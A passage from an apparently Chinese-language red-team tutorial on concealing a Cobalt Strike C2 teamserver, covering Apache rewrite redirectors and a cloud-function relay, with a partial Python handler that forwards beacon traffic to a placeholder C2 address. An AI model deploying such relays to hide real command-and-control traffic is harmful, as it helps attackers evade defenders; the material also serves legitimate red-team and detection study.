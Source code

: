 1. 两台服务器
2. 配置`apache_rewrite`
3. 配置`malleable_profile`文件

## 3.3 重定向技术实现的优缺点

重定向技术对运维人员迷惑效果还是不错的，但对于很专业的运维人员可能效果就没有那么好，而且配置也是最复杂的，如果被发现ban了自己的重定向机器，对于攻击队来说损失也不小，总的来说还是没有cdn的方法好用。

## 3.4 技术实现参考

[利用apache mod_rewrite模块实现重定向技术来隐藏CS的teamserver的原理与实现](https://shanfenglan.blog.csdn.net/article/details/107789018)

# 4 云函数

## 4.1 云函数概念

云函数（Serverless Cloud Function，SCF）为函数即服务 （Function as a Service，FaaS）产品，提供无服务器（Serverless） 和 FaaS 的计算平台。运行方式依赖事件触发。因此在和触发事件源结合时，云函数就可以被触发源所产生的事件触发运行。

## 4.2 技术原理

这个技术的核心原理是利用云函数将我们的请求进行转发（和一些使用第三方应用进行转发是一样的）；C2客户端发出的流量经过 云函数的转发，到达我们的C2服务器，达到隐藏的效果，并且因为云函数的服务器是自带 `CDN` 的，所以为我们的信息传递提供了加速的效果，但是转发的途中有损耗，不能像直接连接那样快，但是足够让我们感受到快乐了。

## 4.3 具体实现

创建测试云函数

首先使用云函数进行创建:

![image-20210518103320100](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/C2/Concealment/images_20210518112359.png)

![image-20210518103929080](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/C2/Concealment/images_20210518112413.png)

函数内容：

```python
# coding: utf8
import json,requests,base64
def main_handler(event, context):
   response = {}
   path = None
   headers = None
   try:
       C2='http://x.x.x.x:port' //C2服务器地址
       if 'path' in event.keys():
           path=event['path']
       if 'headers' in event.keys():
           headers=event['headers']
       if 'httpMethod' in event.keys() and event['httpMethod'] == 'GET' :
           resp=requests.get(C2+path,headers=headers,verify=False) 
       else:
           resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
           print(resp.headers)
           print(resp.content)
       response={
           "isBase64Encoded": True,
           "statusCode": resp.status_code,
           "headers": dict(resp.headers),
           "body": str(base64.b64encode(resp.content))[2:-1]
      }
```